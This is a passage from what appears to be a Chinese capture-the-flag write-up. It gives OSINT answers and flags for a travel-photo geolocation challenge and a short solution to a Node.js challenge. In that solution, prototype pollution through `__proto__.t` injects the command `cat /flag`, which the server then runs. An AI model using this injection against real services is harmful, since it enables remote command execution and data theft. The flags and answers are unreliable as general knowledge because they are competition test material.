 ``` typescript
}

go()
```

可以得到：

`flag{!-4M-ThE-H4cK3r-K!nG-0f-cOmPaR!NG-NUMb3Rs-2oZ4}`

## 旅行照片 4.0

1. 照片拍摄的位置距离中科大的哪个校门更近？

    东西南北都人工试一试，可知东校区西门

2. 话说 Leo 酱上次出现在桁架上是……科大今年的 ACG 音乐会？活动日期我没记错的话是？

    搜索“中科大2024ACG音乐会”，可知20240519

`flag{5UB5CR1B3_T0_L30_CH4N_0N_B1L1B1L1_PLZ_193bf998f5}`

3. 这个公园的名称是什么？（不需要填写公园所在市区等信息）

    把图片放大，注意到垃圾桶上面有**六安**字样，搜索发现是城市名，再尝试搜这个城市有的公园，对照跑道样式，可知中央森林公园

4. 这个景观所在的景点的名字是？（三个汉字）

    搜图，结合题目三个汉字的要求，确定坛子岭

`flag{D3T41LS_M4TT3R_1F_R3V3RS3_S34RCH_1S_1MP0SS1BL3_008d4f5f31}`

5. 距离拍摄地最近的医院是？（无需包含院区、地名信息，格式：XXX医院）

    对准中间两个车间搜图，确定为[北京北动车所](http://tech.chinadaily.com.cn/a/201909/06/WS5d7197d6a31099ab995de441.html)，在地图上搜附近的医院，可知积水潭医院

6. 左下角的动车组型号是？

    搜索四编组动车型号，试出CRH6F-A

`flag{1_C4NT_C0NT1NU3_TH3_5T0RY_4NYM0R3_50M30N3_PLZ_H3LP_8195f39157}`

## Node.js is Web Scale

注意到：

``` typescript
let cmds = {
  getsource: "cat server.js",
  test: "echo 'hello, world!'",
};

let store = {};
```

推测原型链污染

输入 key: `__proto__.t`, value: `cat /flag`
再访问`/execute?cmd=t`
